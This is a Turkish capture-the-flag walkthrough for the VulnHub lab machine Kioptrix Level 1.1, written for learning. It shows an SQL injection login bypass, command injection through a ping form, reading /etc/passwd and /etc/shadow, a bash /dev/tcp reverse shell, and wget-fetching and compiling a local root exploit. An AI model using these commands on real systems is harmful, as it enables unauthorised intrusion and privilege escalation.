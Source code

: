 Arkadaşlar merhaba;

Bu yazımda vulnhub.com üzerinde yayınlanmış olan Kioptrix1.1#2 makinasının çözümünü anlatmaya çalışacağım.

###### Linkler : ######
	
http://www.kioptrix.com
https://www.vulnhub.com/entry/kioptrix-level-11-2,23/

###### Çözüm : ######

İlk olarak benim kullandığım VMware’da Kali’mi ve Kioptrix’i ayaklandırıyorum. Tabi ki de yapacağım ilk işlem hedef makinamın IP adresini bulmak olacak. Bunun için ilk önce Kali makinamın IP adresini buluyorum.

    $ ifconfig
![IP Adresi Bulma](1.png "ifconfig")

Daha sonra Kali’min bulunduğu scope taki IP’leri tarayarak devam ediyorum. 

	$ netdiscover -i eth0 -r 192.168.1.0/24
![Scope Tarama](2.png "netdiscover")

Ve gördüğümüz gibi ip adresim geldi😊 ip adresimi bulduktan sonra yapacağımız şey hemen bir nmap taraması yapmak olacak ki açık portlardan zafiyet bulabilecek miyim kontrol etmeliyim.
	
	$ nmap -sS -sV 192.168.1.22
![Port Tarama](3.png "nmap")

Gördüğümüz gibi açık 6 adet port bulunmakta. Burada hemen 80 portunda çalışan http servisi dikkatimi çekiyor ve tarayıcımdan hedef makinanın IP adresini girerek web sitesinde ne var ona bakıyorum. 

![Http Servisi](4.png "Http Servisi")

Ve karşıma bir admin paneli geliyor. MySQL servisi kullanıldığını da bildiğim için (3306 portu) hemen sql injection denemesi yapıyorum 😊
Bu noktada sayfanın arka planda aşağıdaki gibi bir SQL Query kullandığını düşünerek 
SELECT * FROM users WHERE username='' AND password=''

Aşağıdaki sql injection kodunu username ve password bölümlerine girerek ,
1’ or ‘1’=’1

Sorguyu aşağıdaki şekle getirmeyi amaçlıyorum:
SELECT * FROM users WHERE username='1' or '1'='1' AND password='1' or '1'='1'

Eğer tahminim doğruysa basitçe username 1 ise veya 1=1 ise ve password de 1 veya 1=1 ise beni içeri al demiş oluyorum😊 ki herkesin bildiği gibi 1=1 her zaman doğrudur ve sorguyu bu şekilde bypass etmiş olurum.
![Ping Panel](5.png "Ping Panel")

Mükemmel!  Sorguyu aştık.😊 Karşıma ping atmak için bir komut paneli geldi. Kendi hostuma ping atarak deniyorum.
![Ping Try](6.png "Ping Try")

Evet ping komutu doğru çalışıyor ve gelen sayfadan gördüğüm üzere (url’ye bakabilirsiniz /pingit.php) sayfa php kodları ile çalışıyor. Ben de hemen bir ; koyarak bypass denemesi yapıyorum.
    
    $whoami
![whoami](7.png "whoami")

Oldu! 😊 Sistem komutlarını çalıştırabildiğimi görüyorum ve ilk önce parolaları bulabileceğim /etc/passwd ve /etc/shadow dosyalarını okumaya çalışıyorum.

![etc](8.png "etc")
![etc](9.png "etc")

Resimlerden görüldüğü üzere /etc/shadow dosyasını okuyamıyorum. Başka bir yol denemem lazım.
Ben de Reverse Shell almayı deniyorum. 
İlk önce netcat ile 443 portumu dinlemeye açıyorum.

    $ nc -nvlp 443
    
![netcat](10.png "netcat")

Daha sonra reverse Shell almak için pentestmonkey.net sitesinden bash shellini alıyorum ve kendime göre düzenleyip sitedeki ping command promptuma yazıyorum.

    $ bash -i >& /dev/tcp/192.168.1.22/443 0>&1 (Buradaki ip adresi kalimin ip’si ve port da dinlemeye açtığım port.)
Submit butonuna bastığımda hedef makinaya bağlantı sağlandığını ve yetkisiz bir Shell ile komut çalıştırabildiğimi görüyorum 😊

![Reverse Shell](11.png "Reverse Shell")

Şimdi yapmam gereken yetki yükseltip sistemde root olmaya çalışmak. Aşağıdaki komutları çalıştırarak hedef makinamın hangi işletim sistemini kullandığını ve versiyon bilgilerini öğreniyorum.

    $  cat /etc/*-release
    $  cat /proc/version
![Version](12.png "Version")

Versiyon bilgilerini de öğrendiğime göre internette ufak bir Google search ile bu Linux versiyonunda yetki yükseltme sağlayan https://www.exploit-db.com/exploits/9542/ bu exploiti buluyorum. Şimdi exploitimi kendi Kali’me indirip hedef makinaya kendi Kali’mden wget ile çekiyorum.
Bunu yapmak için indirdiğim exploiti kendi Kali’mde /var/www/html dosyasına atıp apache servisimi başlatıyorum ki wget ile ulaşabileceğim internete açık bir sunucu olsun.

    $ service apache2 start ( Bunu kendi Kali’mde yapıyorum. )
    $ cd /tmp ( tmp dizinine geçiyorum ki dosya yazıp okuyabileceğim bir yer olmalı. Bunu hedef makinada yapıyorum exploiti çekeceğim yer burası olacak. )
    $ wget http://192.168.1.23/9542.c ( Bunu Shell ile ulaştığım hedef makinada yapıyorum. )
![wget](13.png "wget")

Şimdi hedef makinaya yüklediğim exploit kodu C dilinde yazılmış olduğu için GCC ile compile ediyorum ve kodumu çalıştırıyorum. ( Artık exploiti hedef makinaya çektiğim için GCC ile compile ve kodu çalıştırma işlemlerimi hedef makina üzerinde yapıyorum. )

    $ gcc 9542.c 
    $ ./a.out
Daha sonra `whoami` komutu çalıştırdığımda sistemde artık root olduğumuzu görebiliriz.

    $ whoami
![root](14.png "root")




